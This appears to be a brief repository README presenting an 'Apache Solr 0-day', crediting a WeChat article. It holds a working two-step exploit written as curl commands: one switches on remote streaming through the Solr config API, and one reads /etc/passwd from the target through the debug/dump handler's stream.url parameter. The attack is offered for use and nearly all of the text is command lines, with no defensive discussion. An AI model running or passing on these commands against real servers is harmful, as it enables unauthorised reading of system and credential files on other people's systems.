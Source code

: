 #Apache Solr 0-day

## Hacked by: https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 

## Enable remote stream

```
TARGET="127.0.0.1:8983"
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://$TARGET/solr/movie/config -H 'Content-type:application/json'

```

## Exploit

```
curl "http://$TARGET/solr/movie/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"

```


